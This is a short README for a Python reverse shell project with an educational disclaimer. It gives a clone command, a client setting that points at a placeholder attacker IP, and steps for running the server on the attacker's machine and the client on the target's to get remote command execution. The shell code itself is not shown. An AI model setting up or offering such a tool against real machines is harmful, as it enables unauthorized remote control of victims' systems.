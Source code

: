 # Reverse Shell

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script demonstrates a simple reverse shell

## Features

- It allows an attacker to send remote commands to the target's machine

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/priviledge-escalator.git && cd priviledge-escalator
```

## Usage

For client.py

```python
host = "attacker-ip-address"
clientSide(host)
```

## Run

You first have to run server.py on the attacker's machine

```bash
python server.py
```

and then run client.py on target's machine

```python
python client.py
```
